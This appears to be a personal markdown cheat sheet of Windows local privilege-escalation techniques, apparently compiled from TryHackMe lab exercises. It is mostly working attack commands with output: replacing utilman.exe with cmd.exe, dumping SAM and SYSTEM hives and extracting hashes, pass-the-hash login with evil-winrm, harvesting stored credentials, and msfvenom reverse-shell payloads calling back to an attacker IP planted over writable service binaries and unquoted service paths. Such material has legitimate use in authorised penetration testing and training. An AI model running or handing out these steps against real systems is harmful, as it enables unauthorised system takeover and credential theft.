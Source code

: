 [[LPE]]
## Windows Privileges
`whoami /priv`

https://github.com/GhostPack/Seatbelt
https://github.com/411Hall/JAWS

`SeImpersonatePrivilege`
https://github.com/itm4n/PrintSpoofer

`SeTakeOwnership`
```shell-session
C:\> takeown /f C:\Windows\System32\Utilman.exe

SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
```
```shell-session
C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F

C:\Windows\System32\> copy cmd.exe utilman.exe
```
go to lock screen

`SebackupUpPrivilege`
```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV 

download SYSTEM.SAV
download SAM.SAV
```
extract secrets
```bash
impacket-secretsdump -sam SAM.SAV -system SYSTEM.SAV LOCAL
```
get Administrator hash, log in using it:
```bash
evil-winrm -i 10.129.128.107 -u Administrator -H <nt hash>
```




https://lolbas-project.github.io/#
## winpease util
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## Unattended Windows Installations
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml

## Powershell History
```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials

```shell-session
cmdkey /list
```

```shell-session
runas /savecred /user:admin cmd.exe
```


## IIS Configuration

- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

## Retrieve Credentials from Software: PuTTY

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


## Scheduled Tasks

```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

```shell-session
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

```shell-session
C:\> schtasks /run /tn vulntask
```

## AlwaysInstallElevated
```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```


## Insecure Permissions on Service Executable

```shell-session
C:\> sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcuser1
```

```shell-session
C:\Users\thm-unpriv>icacls C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                  APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

```shell-session
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```

```shell-session
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

```shell-session
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```

## Unquoted Service Paths
```shell-session
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

```shell-session
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```

## Insecure Service Permissions
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk